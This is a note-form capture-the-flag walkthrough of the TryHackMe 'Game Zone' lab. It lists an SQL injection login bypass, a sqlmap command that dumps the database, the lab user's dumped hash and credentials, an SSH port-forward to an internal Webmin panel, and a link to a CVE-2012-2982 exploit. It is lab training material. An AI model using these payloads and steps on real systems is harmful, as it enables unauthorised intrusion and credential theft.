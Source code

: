 # Link

- https://tryhackme.com/room/gamezone

# Info

## IP = $IP

## Creds
- agent47:videogamer124

# Ports

## PortScanning
```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

## 80
### SQLi
```sql
' or 1=1 -- -
```

### Search input with `sqlmap`
- get request with burp
- save
- use sqlmap
```bash
┌──(kali㉿kali)-[~/Desktop/CTFs/tryhackme/GameZone]
└─$ sqlmap -r request.txt --dbms=mysql --dump
...
```
- get hash from temp file
```
┌──(kali㉿kali)-[/tmp/sqlmapkbt1n5c16087]
└─$ cat sqlmaphashes-h3zl911w.txt 
agent47:ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14
```
- https://crackstation.net/


## 22

- login with creds


# PrivEsc

## Reverse SSH Tunnels
```
ssh -L 10000:localhost:10000 agent47@$IP
```

## 10000
- webmin cms
- login with creds
- version: 1.580

### find exploit
https://github.com/OstojaOfficial/CVE-2012-2982/blob/main/exploit.py